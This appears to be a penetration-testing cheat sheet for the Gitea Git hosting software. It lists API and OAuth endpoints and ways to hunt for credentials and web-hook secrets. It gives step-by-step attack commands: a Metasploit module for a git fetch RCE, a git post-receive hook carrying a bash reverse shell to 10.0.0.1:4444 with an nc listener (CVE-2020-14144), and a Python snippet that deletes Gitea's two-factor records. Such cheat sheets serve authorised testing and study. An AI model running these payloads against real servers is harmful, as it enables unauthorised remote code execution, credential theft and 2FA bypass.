 ```yaml
---
title: Gitea Pentesting
description: Gitea is a forge software package for hosting software development version control using Git.
tags:
    - Git
    - Web
refs:
date: 2023-07-06
draft: false
---
```


## Common Directories

```bash
/api/swagger
/api/v1/repos/search?q=test
/api/v1/users/search?q=test
/api/v1/users/<username>/repos
/explore/organizations
/explore/repos
/explore/users

# OAuth
/.well-known/openid-configuration
/login/oauth/authorize
/login/oauth/access_token
/login/oauth/userinfo
/login/oauth/keys
```

<br />

## Investigation

### Repositories

If we can access to repositories, we might be able to find sensitive information e.g. credentials, subdomains, other domains, secret keys, etc.  
So check the source code.

### Get Secrets in Web Hooks

In the existing repository, we may find the secret value in the **repository → Settings → Web Hooks**.

### Find User Credentials

If we have access to the target system and the repository, that is pushed in Gitea, exists in the system, we might be able to find the credential.

```sh
cd /path/to/gitea/repo
git config -l
```

<br />


## Git Fetch Remote Code Execution (RCE)

### Metasploit

```bash
msfconsole
msf> use exploit/multi/http/gitea_git_fetch_rce
msf> (set options)
msf> run
```

<br />

## Git Hooks Remote Code Execution (RCE)

[CVE-2020-14144](https://github.com/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce)  
It affects Gitea version from 1.1.0 to 1.13.


### 1. Login

Access to the Gitea dashboard and login as the existing account.

### 2. Create a New Repository

### 3. Go to the Repository’s Settings

In the new repository we’ve created, go to **Settings → Git Hooks → post-receive**.

### 4. Update to the Reverse Shell Payload

In the post-receive edit page, inject the payload as below:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.0.0.1/4444
```

### 5. Start Listener in Terminal

To receive the outcoming connection of the git hook, start listener.

```bash
nc -lvnp 4444
```

### 6. Create the New Repository in Terminal

```bash
mkdir test
cd test
touch README.md
git init
git add README.md
git commit -m "first commit"
git remote add origin https://<target-ip>/<username>/test.git
git push -u origin master
```

After pushing, git hook triggered and execute the reverse shell command.  
Now we should get a shell.

<br />

## Swagger API

We can access to **`/api/swagger`** to interact with **Swagger API**.

### Get New Token & Authorize

We need a token to use Swagger API.

1. Register a new account in Gitea top page.
2. Go to **`/user/settings/applications`** and generate a new token.
3. Copy the token value e.g. “fa2c2428817d64c1b890d404a905f7be2ffd4bde”.
4. Go to **`/api/swagger`**.
5. Click “Authorize” button. The modal window opens.
6. Paste the token in the “Token” section.

<br />

## Delete the Two-Factor

```sh
victim@machine:/gitea/gitea$ python3

>>> import sqlite3
>>> conn=sqlite3.connect('gitea.db')
>>> conn.execute('delete from two_factor')
>>> conn.commit()
>>> conn.close()
```
